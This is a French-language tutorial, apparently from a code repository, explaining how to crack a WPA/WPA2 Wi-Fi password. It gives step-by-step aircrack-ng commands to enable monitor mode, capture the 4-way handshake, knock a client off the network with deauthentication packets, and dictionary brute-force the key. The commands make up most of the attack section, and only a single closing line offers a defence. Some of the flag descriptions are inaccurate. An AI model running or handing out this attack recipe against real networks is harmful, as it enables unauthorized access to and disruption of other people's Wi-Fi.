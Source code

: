 # Introduction

L'objectif de cette attaque est de récuperer la clef WPA/WPA2 en réaliser une attaque de type brute-force. Pour cela, il faut récuperer une trame appélée handshake (4-way handshake) qui contient l'echange de clef effectué pour la connection afin de tester une infinité de combinaison en local

L'attque se deroule donc en plusieurs étape
1. Scan des AP
2. Déconnection d'un terminal connecté a l'AP Cible
3. Récuperation du handshake
4. Brute-force


# Faiblesse

Teste des combinaison en brute-force sur une trame récuperer aprés la connection d'un terminal

# Éxploitation

## Scénario
* Jack est le pirate
* Le terminal de Bob est connecté à son AP
* Jack déconnecte le terminal de Bob  à distance
* Le terminal de Bob se reconnecte a l'AP
* Jack ecoute les trames envoyé à l'AP
* Jack récuperer la trame contenant le handshake
* Jack brute-force le handshake jusqu'a l'obtention du mot de passe



# En pratique

## Logiciels
* aircrack-ng : Outil et ensemble d'outils permettant le sniffing de paquets
	* airdump-ng : Surveille les reseaux Wifi
	* airmon-ng  : Activation du mode monitor
	* aireplay-ng : Attaque sur les terminaux
	* aircrack-ng : Capture des paquets


## Attaque

### Activation du mode monitor sur l'interface wifi
```bash
airmon-ng start <interface>
```
Certain programme peuvent bloquer le passage en mode monitor
```bash
airmon-ng check kill
```
Permet de tuer toutes ces application

### Récuperation des information du wifi
```bash
airodump-ng <interface>
```

### Ecoute des trames pour capturer le handshake
```bash
airodump-ng -w out -c 11 -bssid <bssid> <interface>
```
* -w : Fichier de sortie (en .cap)
* -c : Canal a écouter
* -bssid : BSSID (@MAC) de l'AP a écouter

### Deconnexion du terminal connecté a l'AP cible
```bash
aireplay-ng --deauth 5 -e <ESSID> -a <BSSID> --ignore-negation-auth <interface>
```
* -a : cible de l'attaque AP
	* BSSID : @MAC de l'ap
* -e : cible de l'attaque terminal
	* ESSID : @MAC du terminal
* 5 : nombre de paquets

### Brute-force
```bash
aircrack-ng -w dico.txt out01.cap
```
* -w : Fichier de dictionaire
	* -w - : stdin

### Éxecution
* Activation de l'interface en mode monitor
* Ecoute des trame jusqu'a la capture du handshake
* Deconnexion du terminal connecté a l'AP cible
* Quand airdump-ng indique que le handshake est capturé, l'ecoute des trame peut s'arreter
* Brute-force de la clef WPA/WPA2 avec le handshake

## Petit plus
* hashcat : Génerateur de sequence de lettre (à partir d'un motif)
	* Permet de decrypter d'autre type de mot de passe

# Solution
* Mot de passe complexe (Chiffre, Majuscule, Caractere speciaux, ...)
